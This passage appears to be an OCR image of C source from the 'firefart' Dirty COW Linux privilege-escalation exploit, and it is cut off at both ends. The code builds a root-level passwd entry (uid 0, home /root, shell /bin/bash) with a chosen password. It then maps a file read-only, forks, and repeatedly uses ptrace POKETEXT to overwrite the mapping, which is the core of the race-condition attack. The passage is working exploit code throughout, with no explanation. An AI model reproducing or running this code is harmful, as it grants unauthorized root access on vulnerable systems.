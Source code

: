 ```c
  if (ret != 0)
  {
    exit(ret);
  }

  struct Userinfo user;
  // set values, change as needed
  user.username = "firefart";
  user.user_id = 0;
  user.group_id = 0;
  user.info = "pwned";
  user.home_dir = "/root";
  user.shell = "/bin/bash";

  char *plaintext_pw;

  if (argc >= 2)
  {
    plaintext_pw = argv[1];
    printf("Please enter the new password: %s\n", plaintext_pw);
  }
  else
  {
    plaintext_pw = getpass("Please enter the new password: ");
  }

  user.hash = generate_password_hash(plaintext_pw);
  char *complete_passwd_line = generate_passwd_line(user);
  printf("Complete line:\n%s\n", complete_passwd_line);

  f = open(filename, O_RDONLY);
  fstat(f, &st);
  map = mmap(NULL,
             st.st_size + sizeof(long),
             PROT_READ,
             MAP_PRIVATE,
             f,
             0);
  printf("mmap: %lx\n", (unsigned long)map);
  pid = fork();
  if (pid)
  {
    waitpid(pid, NULL, 0);
    int u, i, o, c = 0;
    int l = strlen(complete_passwd_line);
    for (i = 0; i < 10000 / l; i++)
    {
      for (o = 0; o < l; o++)
      {
        for (u = 0; u < 10000; u++)
        {
          c += ptrace(PTRACE_POKETEXT,
                      pid,
                      map + o,
                      *((long *)(complete_passwd_line + o)));
        }
      }
    }
    printf("ptrace %d\n", c);
  }
  else
  {
    pthread_create(&pth,
```